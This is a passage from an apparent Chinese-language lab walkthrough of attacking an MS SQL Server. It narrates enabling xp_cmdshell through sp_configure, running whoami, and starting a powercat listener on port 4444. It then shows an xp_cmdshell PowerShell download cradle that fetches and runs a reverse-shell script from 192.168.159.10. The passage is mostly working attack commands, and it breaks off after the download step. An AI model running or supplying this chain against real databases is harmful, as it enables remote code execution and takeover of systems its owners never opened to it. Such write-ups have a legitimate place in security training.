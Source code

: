 然后我们使用xp\_cmdshell来执行 whoami 命令，发现 xp\_cmdshell被禁止了  

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191205153437195.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)  

于是我们执行以下命令打开xp\_cmdshell，成功执行whoami命令，得知当前用户为 offensive\\dbadmin



```
EXEC sp_configure 'show advanced options',1 RECONFIGURE EXEC sp_configure 'xp_cmdshell',1 RECONFIGURE EXEC master..xp_cmdshell 'whoami'`



*   1

*   2

*   3

*   4

*   5
```




![在这里插入图片描述](https://img-blog.csdnimg.cn/20191205153454836.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_12,color_FFFFFF,t_70)  

然后我们准备执行命令，反弹一个shell回来  

首先我们在本机导入powercat.ps1脚本，然后进行监听



```
Import-Module .\powercat.ps1 powercat -l -v -p 4444 -t 1000`



*   1

*   2
```




然后在本机利用HFS开启一个http服务  

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191206222243678.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)  

随后，我们在HeidiSQL中执行以下命令



```
EXEC master..xp_cmdshell 'powershell "iex(New-Object Net.WebClient).DownloadString(''http://192.168.159.10/Invoke-PowerShellTcpOneLine_4444.ps1'')"'`



*   1
```
